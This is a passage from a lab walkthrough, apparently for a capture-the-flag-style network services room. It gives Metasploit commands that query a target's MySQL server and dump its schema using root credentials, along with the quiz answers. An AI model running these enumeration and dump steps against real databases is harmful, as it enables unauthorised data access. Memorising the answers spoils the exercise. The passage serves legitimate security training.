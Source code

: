 - <p>Great! We know that our exploit is landing as planned. Let's try to gain some more ambitious information. Change the "sql" option to "show databases". how many databases are returned?<br /></p>

```bash
msf6 auxiliary(admin/mysql/mysql_sql) > set SQL "show databases"
msf6 auxiliary(admin/mysql/mysql_sql) > exploit
```

![Guide image](./screenshots/network-services-2-17.png)

**=> Answer: `4`**

### 10. Exploiting MySQL

- <p>First, let's search for and select the "mysql_schemadump" module. What's the module's full name?<br /></p>

```bash
msf6 auxiliary(admin/mysql/mysql_sql) > search mysql_schemadump
```

**=> Answer: `auxiliary/scanner/mysql/mysql_schemadump`**

- Great! Now, you've done this a few times by now so I'll let you take it from here. Set the relevant options, run the exploit. What's the name of the last table that gets dumped?<br />

```bash
msf6 auxiliary(admin/mysql/mysql_sql) > use 0
msf6 auxiliary(scanner/mysql/mysql_schemadump) > set PASSWORD password
msf6 auxiliary(scanner/mysql/mysql_schemadump) > set USERNAME root
msf6 auxiliary(scanner/mysql/mysql_schemadump) > set RHOSTS <MACHINE_IP>
msf6 auxiliary(scanner/mysql/mysql_schemadump) > exploit
```
